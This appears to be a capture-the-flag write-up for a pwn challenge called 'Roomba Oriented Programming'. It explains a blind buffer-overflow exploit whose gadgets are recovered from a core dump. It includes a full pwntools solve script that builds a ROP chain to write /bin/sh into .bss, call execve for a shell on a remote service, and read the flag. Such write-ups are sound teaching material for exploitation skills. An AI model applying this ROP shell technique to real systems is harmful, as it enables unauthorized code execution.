

## Roomba Oriented Programming 
it's a straightforward BoF players need to build a ROP chain using the gadgets available in the core dump. The idea is to:
- Use a read syscall to write /bin/sh into .bss.
- Execute an execve("/bin/sh", NULL, NULL) syscall using ROP gadgets.

The twist: exploitation must be done blindly against a remote server where the binary is running. The difficulty lies in analyzing the core dump to recover useful gadgets and offsets, since the ELF isn’t provided.

You can find gadgets with gdb. Load the core dump file with: `gdb -q -core roomba_oriented_programming.core`


### Solve script
```py
from pwn import *

io = remote('127.0.0.1', 7373)

io.recvuntil(b'secret shutdown command')

OFFSET = 24
XOR_RAX_RAX = 0x401184
XOR_EAX_EAX = 0x401185
XOR_EDI_EDI = 0x40118f
POP_RDX = 0x401182  
POP_R15 = 0x401196
BSS_ADDR = 0x404200
MOV_RSI_R15 = 0x401192
POP_RDI = 0x40119c
MOV_EAX_3B = 0x401188
XOR_R15_R15 = 0x40118e
SYSCALL = 0x401199
RET = 0x401208

payload = b'A' * OFFSET

#? 1 - Write /bin/sh\x00 to BSS
payload += p64(RET)
payload += p64(XOR_RAX_RAX) #? read
payload += p64(XOR_EDI_EDI) 
payload += p64(POP_RDX)
payload += p64(8) #? size

payload += p64(POP_R15)
payload += p64(BSS_ADDR) #? address of BSS 
payload += p64(MOV_RSI_R15)
payload += p64(SYSCALL)

#? 2- pop rdi and store the address of the BSS /bin/sh\x00
payload += p64(RET)
payload += p64(POP_RDI)
payload += p64(BSS_ADDR)

#? 3 - Set rax to 0x3b (execve syscall)
payload += p64(XOR_EAX_EAX)
payload += p64(MOV_EAX_3B)

#? 4 - zero out rsi
payload += p64(XOR_R15_R15)
payload += p64(MOV_RSI_R15)

#? 5 - Set rdx to 0
payload += p64(POP_RDX)
payload += p64(0)

#? 6 - Syscall
payload += p64(SYSCALL)

io.sendline(payload)
sleep(1)
io.sendline(b'/bin/sh\x00')
sleep(1)
io.sendline(b'cat flag.txt')
io.interactive()
```